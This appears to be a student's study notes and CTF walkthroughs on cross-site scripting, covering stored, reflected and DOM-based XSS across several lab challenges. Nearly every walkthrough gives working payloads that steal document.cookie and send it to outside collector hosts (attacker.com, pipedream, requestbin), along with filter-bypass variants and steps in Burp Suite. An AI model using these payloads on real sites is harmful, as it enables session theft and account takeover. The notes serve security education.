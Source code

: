 # XSS
* Cross-site scripting (XSS) is a web security vulnerability that allows attackers to inject malicious code into a user's browser.

## Part 1. Report
 
## Part 2. XSS
- Working on Web Browser: JavaScript
- Working location: victim's web browser

1. Stored XSS -> Save in the server
2. Reflected XSS -> rebound from Server
3. XSS, CSRF
4. Steal cookie by using JavaScript

```javascript
var cookieData = document.cookie;
var i = new Image();
  i.src = "HTTP://normaltic.attacker.com/
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + "Secret_data";
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + cookieData;
```

5. VPS or requestbin - https://public.requestbin.com/r/

6. XSS
   [Common XSS Errors](https://github.com/imnarendrabhati/testing-new/blob/master/%3CIMG%20SRC%3DX%20ONERROR:JAVASCRIPT:ALERT(1)%3B%3E)

1) CTF XSS 1
- [Similiar Example](https://portswigger.net/web-security/cross-site-scripting/contexts)
- Error = Input script
- Annoucement and create content "<script>alert(1)</script>" on the subject.
- When you click it, the alert shows up.
- Instead of alert(1), put
```javascript
var i = new Image(); i.src = "HTTP://en7riltg206nc.x.pipedream.net/getCrred.php?cookie=" + cookieData;
```
- In BurpSuite, instead of alert(1), put the below code
```javascript
var cookieData = document.cookie; 
var i = new Image();
i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;
```
- On the admin visit url = type the address made by the attack post
- Check the flag on https://public.requestbin.com/

7. DOM Based XSS
- Create a tag by using JavaScript
- Create and execute a new script from a browser
- an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim's browser used by the original client-side script,
- document.write = "";
- innerHTML

## Part 3. Assignment
1. Review
2. XSS CTF <br>
a. CTF XSS 2
  - Error = Showing the direct sentence on HTML
```javascript
<script>alert('x에 대한 검색 결과가 존재하지 않습니다.');</script>
```
  - Check Attack statement on search bar
```javascript
xss');alert(1);var i=('
```
  - Check Attack
```javascript
xss');var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;var i=('
```
  - Send to repeater the POST URL to change GET method
  - Replace the Repeater on Burp Suite, working on the GET method instead of the POST method because the host gets the access
  - The GET URL inputs the admin visit URL bar
  - Check the flag on https://public.requestbin.com/

b. CTF XSS 3
  - Error = Showing ID on the URL on the personal information 
  - Check the attack possibility to change the ID on Burp Suite Request
  - Check the attack statement
```javascript
aaa"/><script>alert(1)</script>
```
  - Check the attack
```javascript
aaa"/><script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
```
  - Copy GET URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

c. CTF XSS 4
  - Error = In the board, it is possible to use special characters (<'">).
  - Check the attack possibility of using an attack statement on the board.
```javascript
<script>alert(1)</script>
```
  - Filtering "script" and "alert", so using another attack statement
```javascript
<img src=x onerror=confirm(1)>
```
  - Check the attack
```javascript
<img src="https://x" onerror="location.href='http://enjt04rx79at.x.pipedream.net/?cookie=' + document.cookie;">
```
  - Block the long subject
  - Check the attack on the content box
  - Copy URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

d. CTF XSS 5
  - Error = In the board, it is possible to use special characters (<'">), but it converts &lt;
  - Check the attack possibility of using an attack statement on the board => <script>alert(1)</script>
  - Using the Burp Suite, the website should be intercepted step by step
  - Create a new post and forward
  - Check the attack statement => <script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
  - During the intercept, change the filtered attack statement
  - Open the new post and copy the URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

e. CTF XSS 6
  - Error = When you log in wrong, the alert pops up.
  - Check the attack possibility in the Burp Suite
  - The POST proxy sends to Repeater and changes the method to GET
  - Check special characters and it works
  - Check the attack statement => +]');alert(1)//
  - Check the attack => +]');location.href='http://enjt04rx79at.x.pipedream.net/?cookie='%2bdocument.cookie;//
  - Copy URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

f. CTF XSS Challenge 
